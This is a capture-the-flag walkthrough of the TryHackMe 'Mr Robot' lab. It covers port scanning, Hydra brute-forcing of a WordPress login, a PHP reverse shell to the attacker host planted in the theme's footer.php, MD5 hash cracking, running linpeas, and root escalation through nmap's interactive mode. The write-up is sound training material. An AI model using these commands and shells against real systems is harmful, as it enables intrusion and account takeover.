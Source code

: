 # Mr Robot CTF

**Room Link:** [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)





## Scanning

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (6).png" alt=""><figcaption></figcaption></figure>

### HTTP port 80

This ran for the majority of the time I was working on the box, I found the wordpress and checked robots.txt manually and the scan didn't really find anything of interest.

**Kali**

```
dirb http://$VICTIM:80 /usr/share/wordlists/dirb/big.txt
```

<figure><img src="../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>

#### Key 1

<figure><img src="../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

**Downloaded fsocity.dic**

<figure><img src="../../.gitbook/assets/image (20) (1) (4).png" alt=""><figcaption></figcaption></figure>

If you refresh the page you'll go to a wordpress site.

<figure><img src="../../.gitbook/assets/image (27) (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (6).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (24) (6).png" alt=""><figcaption></figcaption></figure>

Test to see what users exist in wordpress, if the user doesn't exist it will give an error saying the user is invalid.

<figure><img src="../../.gitbook/assets/image (26) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -L fsocity.dic -p test  $VICTIM http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10
.10.70.148%2Fwp-admin%2F&testcookie=1:Invalid username" -V -t 30    
```

<figure><img src="../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (2) (2).png" alt=""><figcaption></figcaption></figure>

Because there were so many entries in fsocity.dic I tried to reduce it as much as I could by removing duplicates and passwords that I thought would be unlikely.

**Kali**

```
cat fsocity.dic | sort | uniq > new-fsocity.dic
#Remove lines with less than 4 characters
sed -r '/^.{,4}$/d' new-fsocity.dic > new-new-fsocity.dic
#Remove lines with just numbers
awk '! /^[0-9]+$/' new-new-fsocity.dic > nonums.dic 
#Remove lines with more than 11 characters
sed '/^.\{11\}./d' nonums.dic > final.txt
```



**Kali**

```
hydra -L Elliot -P fsocity.dic  $VICTIM http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F
10.10.70.148%2Fwp-admin%2F&testcookie=1:is incorrect." -V -t 30 
```

<figure><img src="../../.gitbook/assets/image (13) (8) (1).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

### Reverse Shell Failed Attempt

**revshell.php code**

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```

**Kali**

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25) (1) (3).png" alt=""><figcaption></figcaption></figure>

Connection is made but it isn't stable.

<figure><img src="../../.gitbook/assets/image (5) (11).png" alt=""><figcaption></figcaption></figure>



### Reverse Shell&#x20;

wpscan found out that twentyfifeen is installed.

**Kali**

```
wpscan --url http://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (11) (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -vlnp 443
```

Added the same shell to footer.php which should appear on every page visited. Then I just went back to http://$VICTIM/join and it worked.

<figure><img src="../../.gitbook/assets/image (2) (1) (7) (1).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
cd /home/robot
ls
cat password.raw-md5 
```

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

<figure><img src="../../.gitbook/assets/image (10) (1) (8).png" alt=""><figcaption></figcaption></figure>

### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (37) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

**Victim**

```
/usr/local/bin/nmap --interactive
nmap> !sh
```

<figure><img src="../../.gitbook/assets/image (9) (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25) (5).png" alt=""><figcaption></figcaption></figure>

